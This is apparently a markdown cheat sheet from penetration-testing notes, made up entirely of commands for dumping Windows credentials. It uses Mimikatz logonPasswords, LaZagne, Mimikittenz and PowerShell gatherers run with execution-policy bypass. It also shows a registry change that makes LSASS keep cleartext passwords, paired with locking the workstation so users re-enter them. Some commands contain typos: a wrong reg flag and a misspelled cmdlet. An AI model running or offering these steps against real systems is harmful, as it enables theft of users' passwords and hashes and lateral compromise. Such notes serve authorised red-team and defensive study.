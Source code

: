 
# Dumping logon passwords and hashes with mimikatz
```bash
./mimikatz64.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"
```
-----------------------

# With LaZagne

https://github.com/AlessandroZ/LaZagne
```bash
LaZagne.exe all
```
-----------------------

# Clear text passwords with Mimikatz
```bash
# Add pasword to LSASS
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /r REG_DWORD /d 1 /f

# Lock users out
rundll32.exe user32.dll,LockWorkStation

# Get clear text passwords with Mimikatz
privilege::debug
sekurlsa::logonPasswords
```
-----------------------

# Gather passwords from applications with Mimikittenz
https://github.com/orlyjamie/mimikittenz
```bash
powershell -ep bypass
Import-Module .\Invoke-mimikittenz.ps1
Imvoke-mimikittenz
```
-----------------------

# Gather Web Credentials with Nishang
https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1
```bash
powershell -ep bypass
Import-Module .\Get-WebCredentials.ps1
Get-WebCredentials
```
-----------------------

# Gather Windows Credentials with Nishang
https://github.com/peewpw/Invoke-WCMDump
```bash
powershell -ep bypass
Import-Module .\Invoke-WCMDump.ps1
Invoke-WCMDump
```
-----------------------
